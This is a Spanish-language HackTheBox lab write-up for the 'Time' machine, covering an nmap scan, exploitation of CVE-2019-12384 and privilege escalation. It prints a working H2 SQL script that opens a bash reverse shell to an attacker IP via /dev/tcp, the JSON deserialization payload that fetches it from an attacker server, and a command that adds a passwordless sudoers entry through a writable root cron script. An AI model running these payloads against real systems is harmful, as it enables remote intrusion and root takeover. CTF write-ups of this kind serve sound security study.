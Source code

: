 ```yaml
---
title: "HackTheBox - Time"
layout: splash

excerpt: Este es el "Write-Up" de la máquina **Time** de la plataforma HackTheBox, esta máquina me pareció muy interesante basándonos en los ataques que hay que realizar para su intrusión, la escalada de privilegios me gusto bastante...

header:
show_date: true
classes: wide 

toc: true
toc_label: Indice
 
header:
  teaser: "https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_1.png"
  teaser_home_page: true
  icon: "https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_1.png"

categories:
  - Walkthrough
tags:
  - WriteUp
  - hackthebox
---
```


# **Time Write up HTB**

>- `Pasos`
>
>>**1->** Escaneo de la ip con nmap  
>>**2->** Vulnerar la web  
>>**3->** Ejecucuion del CVE-2019-12384  
>>**4->** Escalar privilegios    

***

##  Escaneo de la ip con nmap

>- nmap nmap -sSV --min-rate 3000 --open -n -Pn 10.10.10.214    
>
>Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 13:48 CET  
>Nmap scan report for 10.10.10.214  
>Host is up (0.22s latency)  
>Not shown: 985 closed ports, 13 filtered ports  
>Some closed ports may be reported as filtered due to --defeat-rst-ratelimit  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
>80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

Agreguemos la **IP(`10.10.10.214`)** al /etc/hosts  
Ya puestos en el navegador accederemos a **time.htb**  
                      <img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_2.png" widht=800 />    

## Vulnerar la web    

            En la web hay dos opciones:    

>Beautify  
>Validate!beta!)  

Escribimos **Hello world** con la opcion de `Validate(!beta)` seleccionada, y observamos que la web nos genera un   error  

   <img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_3.png" widht=800 />  
						
Eventualmente leyendo y buscando este error en google damos con la vulnerabilidad **CVE-2019-12384**   
En github hay varias **PoC** para explotar esta mala configuracion en el backend.



##  Ejecucuion del CVE-2019-12384  

Primero nos crearemos el archivo `inject.sql` para posteriormente levantar un servidor con python  

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/10.10.16.149/4444 0>&1 &')
```

> python3 -m http.server  

En una terminal pondremos un netcat a la escucha.  

En la web utilizaremos este **payload**:

```java
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://your_ip:8000/inject.sql'"}]
```

<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_4.png" widht=800 />  

Como experiencia personal muchos payloads de github no me sirvieron.No se rompan la cabeza y utilicen el de arriba.      

Vemos en el servidor de python que  hubo una peticion **GET**  
<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_5.png" widht=800 />  
Tenemos una shell interactiva por el puerto en escucha del netcat.  
<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_6.png" widht=800 />  
     Flag user.txt    

<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_7.png" widht=800 />  

##  Escalar privilegios  
Enumerando el sistema vemos que hay una tarea que se ejecuta como root pero el usuario `pericles`  tiene permisos de escritura sobre este archivo    

`/usr/bin/timer_backup.sh`

>echo 'echo "pericles ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >/usr/bin/timer_backup.sh  

 Esto nos permite agregar al usuario **_pericles_** al /etc/sudoers para que ejecute tareas de `root` sin proporcionar la contrasena.  
 Luego hacemos un `sudo su `   

<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_8.png" widht=800 />

`Flag root.txt:` `cat /root/root.txt`

- [x] ***H@ppY H@(K1NG!***
